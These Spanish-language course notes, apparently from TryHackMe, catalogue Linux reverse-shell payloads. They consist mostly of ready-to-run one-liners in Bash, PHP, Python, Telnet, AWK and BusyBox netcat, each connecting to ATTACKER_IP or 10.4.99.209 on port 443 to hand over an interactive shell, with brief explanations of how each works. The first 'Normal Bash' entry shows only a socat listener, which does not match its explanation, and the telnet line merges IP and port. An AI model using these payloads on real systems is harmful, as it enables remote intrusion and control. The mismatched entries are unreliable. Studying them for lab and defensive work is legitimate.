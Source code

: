 ```yaml
---
layout: apunte
title: "6. Shell Payloads"
---
```


Un payload de shell puede ser un comando o script que expone una shell a una conexión entrante en caso de una bind shell o que manda una conexión en caso de una reverse shell.

Exploremos algunos de los payloads que pueden ser usados en Linux OS para exponer shells mediante **reverse shell**.

--------------------------
<h2>Bash</h2>
<h6>Normal Bash Reverse Shell</h6>
```shell
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```

Esta reverse shell inicia una shell bash interactiva que redirige el input y output a través de una conexión TCP a la máquina del atacante en el puerto `443`. El operador `>&` combina ambos, estándar output y error.

<h6>Bash Read Line Reverse Shell</h6>
```shell
target@tryhackme:~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

Esta reverse shell crea un nuevo descriptor de archivo (`5` en este caso) y se conecta a un socket TCP. Leerá y ejecutará comandos desde el socket, mandando el output a través del mismo socket.

<h6>Bash With File Descriptor 196 Reverse Shell</h6>
```shell
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

Esta reverse shell usa un descriptor de archivo (`196` en este caso) para establecer una conexión TCP. Permite al shell leer comandos de la red y mandar el output de vuelta mediante la misma conexión.

<h6>Bash With File Descriptor 5 Reverse Shell</h6>
```shell
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

De forma similar al primer ejemplo, este comando abre una shell, pero usa el descriptor `5` para el input y el output, permitiendo una sesión interactiva mediante una conexión TCP.

----------------------
<h2>PHP</h2>
<h6>PHP Reverse Shell Using the exec Fuction</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

Esta reverse shell crea una comunicación socket a la IP del atacante en el puerto `443` y usa la función `exec` para ejecutar una shell, redirigiendo el input y output estándar.

<h6>PHP Reverse Shell</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

Similar al comando anterior, pero usa la función `shell_exec`.

<h6>PHP Reverse Shell Using the system Function</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

Esta reverse shell usa la función `system` la cual ejecuta el comando y muestra la salida en el navegador.

<h6>PHP Reverse Shell Using the passthru Function</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

La función `passthru` ejecuta un comando y manda output raw de vuelta al navegador. Esto es útil al trabajar con datos binarios

<h6>PHP Reverse Shell Using the popen Function</h6>
```shell
target@tryhackme:~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

Esta reverse shell usa `popen` para abrir un puntero de proceso de archivo, permitiendo a la shell ser ejecutada.

-------------------------
<h2>Python</h2>
<h6>Python Reverse Shell by Exporting Environment Variables</h6>
```shell
target@tryhackme:~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```

Configura el host remoto y puerto como variables de entorno, crea una conexión socket y duplica el descriptor de archivo del socket.
<h6>Python Reverse Shell Using the subprocess Module</h6>
```shell
target@tryhackme:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

Usa el módulo `subprocess`para spawnear una shell y configurar un entorno similar al Python Reverse Shell exportando el comando de variables de entorno.
<h6>Short Python Reverse Shell</h6>
```shell
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

Crea un socket (`s`), se conecta al atacante, redirige el input,output y error estándar al socket usando `os.dup2()`.

--------------------------
<h2>Otras</h2>
<h6>Telnet</h6>
```shell
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

Crea una named pipe usando `mkfifo` y se conecta al atacante vía Telnet en la IP y puertos especificados.

<h6>AWK</h6>
```shell
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

Usa el TCP en AWK para conectarse a la IP y puerto del atacante. Lee comandos del atacante y los ejecuta. Después manda los resultados de vuelta por la misma conexión TCP.

<h6>BusyBox</h6>
```shell
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```

Usa Netcat (`nc`) para conectarse al atacante. Una vez establecida la conexión, ejecuta `/bin/sh`, exponiendo la línea de comandos al atacante.
